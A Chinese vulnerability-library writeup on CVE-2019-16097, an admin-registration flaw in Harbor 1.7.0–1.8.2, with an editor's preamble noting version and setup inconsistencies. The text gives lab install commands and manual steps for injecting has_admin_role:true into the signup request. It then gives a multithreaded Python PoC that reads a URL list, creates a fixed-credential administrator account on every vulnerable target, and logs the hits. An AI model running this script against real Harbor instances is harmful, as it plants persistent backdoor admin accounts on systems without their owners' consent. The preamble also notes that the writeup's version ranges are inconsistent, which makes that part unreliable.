




## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：1.7.0至1.8.2但固定点1.7.6/1.8.3，需按分支拆范围；注册入口/认证模式前提未列

代码与实验材料：has_admin_role=true请求+界面验证，批量代码实际创建持久管理员并用固定用户名密码，不是无副作用检测

来源证据范围：BaizeSec及旧博客，缺厂商安全公告

- **事实待核（1）**：版本范围自相包含；依据：Harbor&gt;=1.7.6被称不受影响，却包含受影响1.8.0至1.8.2，必须限定1.7分支。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **凭据与会话边界（2）**：检测会新增特权账号且成功判据不足；依据：201只证明用户创建，未自动检查admin角色；固定凭据无清理，多线程共享输出并忙等。抓包中的会话不能视为未认证访问证明；可识别的真实会话值按中段星号遮罩处理，默认演示值和攻击语法保留。需重新取得授权测试会话，不能复用文中值。

- **结论使用边界（3）**：环境准备文件名不一致；依据：下载v1.8.1但解压v1.8.0，release-1.8.0路径也需核；内嵌第二套frontmatter。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Harbor任意管理员注册漏洞

---
title: 'Harbor任意管理员注册漏洞'
date: Mon, 07 Sep 2020 13:32:33 +0000
draft: false
tags: ['白阁-漏洞库']
---

### 影响版本

Harbor 1.7.0版本至1.8.2版本

### 不受影响版本

Harbor>= 1.7.6

Harbor>= 1.8.3

### 复现之环境准备

1.Cenos7安装好docker和docker-compose 2.下载并安装harbor1.8.1在线安装版本

```
wget https://storage.googleapis.com/harbor-releases/release-1.8.0/harbor-online-installer-v1.8.1.tgz

tar xvf harbor-online-installer-v1.8.0.tgz

cd harbor

vi harbor.yml
```

修改hostname为安装Harbor机器的IP地址。安装harbor ./install.sh

### 漏洞复现

注册一个Harbor帐号，填写密码时注意要符合规范对注册信息进行抓包修改，在post数据后面添加”has\_admin\_role”:true查看\[Response\]，返回201,说明写入成功。 使用admin帐号进入后发现，已经成功写入帐号，并且为管理员权限。

### 批量利用poc

```
import requests
import threading
import logging

data='{"username":"biubiubiu","email":"biubiubiu11@qq.com","realname":"biubiu1biu","password":"Aa111111","comment":"biubiubiu","has_admin_role":true}'

headers={"Content-Type": "application/json"}

def poc(url):
    pwn_url=url+"/api/users"
    payload=data
    try:
        r=requests.post(pwn_url, data=payload,headers=headers,timeout=10)
        print(pwn_url)
        print(r.status_code)
        if r.status_code == 201:
            print("\n\n you has created a user,username=biubiubiu,password=Aa111111")
            f.write(url+"       The URL has created a user,username=biubiubiu,password=Aa111111")
        else:
            print("The vulnerability does not exist on the website or the account name has been written")

    except Exception as e:
        logging.warning(pwn_url)
        print(e)

if __name__ == '__main__':
    print ("this is a CVE-2019-16097 poc")
    print("more cve-2019-16097 info welcome to https://www.lstazl.com")
    f=open("results.txt","a")
    url_list=[i.replace("\n","") for i in open("urls.txt","r").readlines()]
    for url in url_list:
        threading.Thread(target=poc,args=(url,)).start()
        while 1:
            if (len(threading.enumerate())<50):
                break
```

1.在urls.txt中添加你要检测的url

2.python3环境下运行cve-2019-16097脚本 python3 cve-2019-16097.py

3.批量检测完成后再results中查看成功写入账号的url。


---

> 来源：白阁文库 BaizeSec/bylibrary
